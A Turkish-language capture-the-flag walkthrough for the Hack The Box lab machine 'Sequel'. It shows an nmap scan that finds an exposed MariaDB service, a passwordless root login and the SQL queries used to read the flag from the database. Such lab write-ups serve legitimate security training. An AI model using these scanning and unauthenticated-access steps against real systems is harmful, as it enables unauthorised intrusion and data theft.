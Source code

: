 ```yaml
---
search:
  boost: 2
---
```


# Sequel

!!! info "Target IP Address"

    10.129.95.232

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.95.232 -sV -sC
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:30 +03
Nmap scan report for 10.129.95.232
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 68
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, ODBCClient, LongColumnFlag, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Speaks41ProtocolNew, SupportsCompression, Support41Auth, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 216.00 seconds
```

MySQL ile hedefe `root` kullanıcısı olarak giriş yap (kullanıcı `root` olduğunda parola istenmez):

```bash
mysql -h 10.129.95.232 -u root
```

Mevcut veri tabanlarını görüntülemek için aşağıdaki komutu çalıştır:

```text
show databases;
```

Öncelikle `htb` isimli veri tabanını seç:

```text
use htb;
```

Mevcut tabloları görüntülemek için aşağıdaki komutu gir:

```text
show tables;
```

```text title="Output"
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.142 sec)
```

Aşağıdaki komut ile bayrağı ele geçir:

```sql
SELECT * FROM config WHERE name = 'flag';
```
